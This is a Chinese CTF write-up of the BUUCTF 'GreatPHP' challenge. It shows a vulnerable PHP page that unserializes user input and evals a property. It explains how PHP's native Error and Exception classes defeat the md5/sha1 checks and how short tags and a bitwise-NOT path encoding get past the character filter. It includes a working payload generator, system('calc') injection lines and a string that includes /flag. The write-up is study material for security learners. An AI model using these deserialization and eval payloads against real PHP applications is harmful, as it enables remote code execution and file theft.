



# PHP原生类利用

原题戳这👉<a href="https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202020]Greatphp">BUUCTF 极客大挑战2020 GreatPHP</a>

```php
<?php
error_reporting(0);
class Test {
    public $a;
    public $b;

    public function __wakeup(){
        if( ($this->a != $this->b) && (md5($this->a) === md5($this->b)) && (sha1($this->a)=== sha1($this->b)) ){
            if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
                eval($this->syc);
            } else {
                die("Try Hard !!");
            }

        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}
```

很明显的反序列化考题，但是过滤了`<?php`、`(`、`)`、`'`、`"`

要求`Test`类的两个属性不同，但其哈希值md5、sha1相等

常规思路是数组绕过md5、sha1检测

```php
<?php
$a = array(1);
$b = array(2);
echo (md5($a) === md5($b)) && (sha1($a)=== sha1($b)); // 1
```

但是当后面eval碰上数组时：

```php
<?php
$a = array("<?php system('calc')");
eval($a);
```

> Notice: Array to string conversion
> Parse error: syntax error, unexpected end of file, expecting '(' in xxx.php(3) : eval()'d code on line 1

可以看出数组被转为字符串，`echo $a;`输出`Array`
这就解释了`eval`的报错：缺少左括号，eval以为我们要执行`Array()`

所以我们要找一个类，满足如下要求：

1. 能够绕过md5、sha1检测
2. 存在`__toString`方法能够输出我们构造的恶意代码

这里就要用到了PHP的原生类：`Error`和`Exception`



可以看到输出了我们自定义的错误信息和行号



注意：`?><?php system('calc');?>`
`第一个?>`是为了闭合前面的`<?php Error: `  （`eval`会自动在参数前拼接`<?php`）
`第二个?>`是为了抛掉后面的错误信息
即：`Error: ?><?php system('calc');?> in E:\JetBrains\apps\PhpStorm\PhpCode\funny.php:2....`

接着看哈希的绕过
```php
<?php
class Test{
    public $a;
    public $b;

    public function __construct($a, $b){
        $this->a =$a;
        $this->b =$b;
    }
}
$payload = "test";
$a= new Error($payload, 1);$b= new Error($payload, 2); // 注意$a、$b放同一行，输出的错误行才能相同
$test = new Test($a, $b);
echo $test->a.PHP_EOL;
echo $test->b.PHP_EOL;
if( ($test->a != $test->b) && (md5($test->a) === md5($test->b)) && (sha1($test->a)=== sha1($test->b)) ){
    echo 'Bingo!!!';  // Bingo!!!
}
```



md5、sha1会触发`Error`类的`__toString`方法，我们可以看到输出的`$a`、`$b`相同
而我们在`new Error()`时，`$a、$b`第二个参数不同，因此`$a != $b`

到这里绕过了第一层限制，接着看`preg_match`
过滤了`<?php`、`(`、`)`、`'`、`"`

可以用短标签`<?= =>`代替`<?php`
过滤了括号，我们只能使用不需要括号的函数（其实叫PHP的语言结构）

> echo
>
> print
>
> die
>
> include，注意，include_once()是函数
>
> require，注意，require_once()是函数

我们尝试用`include`来包含`/flag`，过滤了引号，我们不能直接`include '/flag'`

PHP对于未定义的常量，会假设它是字面值的字符串

如下：
```php
<?php
echo php666;
// Warning: Use of undefined constant php666 - assumed 'php666' 
// (this will throw an Error in a future version of PHP)
```

但我们要包含根目录下的flag，`/`是关键字符，这里用取反绕过

```php
<?php
$a = ~'/flag';
echo urlencode($a);
// %D0%99%93%9E%98
// $payload = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
```

```php
<?php
class Test{
    public $a;
    public $b;

    public function __construct($a, $b){
        $this->a =$a;
        $this->b =$b;
    }
}
$payload = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
$a= new Error($payload, 1);$b= new Error($payload, 2);
$test = new Test($a, $b);
echo urlencode(serialize($test));
```

注：上面的`Error`换成`Exception`效果相同。

